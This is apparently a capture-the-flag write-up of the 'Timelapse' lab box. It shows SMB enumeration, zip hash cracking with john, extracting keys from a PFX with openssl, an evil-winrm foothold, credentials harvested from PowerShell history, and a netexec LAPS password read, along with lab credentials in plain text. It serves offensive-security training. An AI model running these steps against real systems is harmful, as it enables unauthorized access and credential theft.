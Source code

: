 # 📦 Timelapse

I start off by scanning open ports:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

first i add timelaps.htb to my hosts file

Then i try conecting though RPCCLIENT anonymous but got denied, then SMB shares enum:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I download everything in the share and see some interesting stuff:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a password to unzip the backup zip so i use zip2john to get the hash:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john  --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt 
```

then i get my hash, i'm able to unzip and see the pfx file but there is also a password:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>thuglegacy</p></figcaption></figure>

Then to extract the keys ->

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
#to see the content:
openssl pkcs12 -in legacyy_dev_auth.pfx
#to dl the key:
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
#to dl the cert:
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert
```

**`-nocerts`** → Tells OpenSSL to extract **only** the private key (skip the certificates).

**`-nodes`** → **Disables encryption** on the private key (otherwise, OpenSSL would ask for a passphrase)

**`-nokeys`** → Tells OpenSSL to extract **only** the certificate(s) (skip the private key).

Now that we have a private key i can try and use evil-winrm with --ssl:

```
evil-winrm -S -i <IP> -c key.cert -k key.pem
```

and we are able to get a foothold:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
`gci -force .` will show hidden files in a directory
{% endhint %}

Then we have to enumerate and check a powershell file that is used when you connect on multiple computers in a domain with the same account, this file will follow you as your history:

```
C:\Users\legacyy\Appdata\Roaming\Microsoft\Windows\Powershell\Psreadline
```

and in that file we find a consolehost log file ->

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption><p>svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV</p></figcaption></figure>

Winpeas catches this file. Now we can connect:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After looking at our groups we can see some stuff:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password" %}

We can see there is a netexec module for laps exploit:

```
nxc smb 10.129.227.113 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
nxc ldap 10.129.227.113 -u 'Administrator' -p 'D!YT07abvZ0,1Xy%Mf3$8+R8'
```

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>
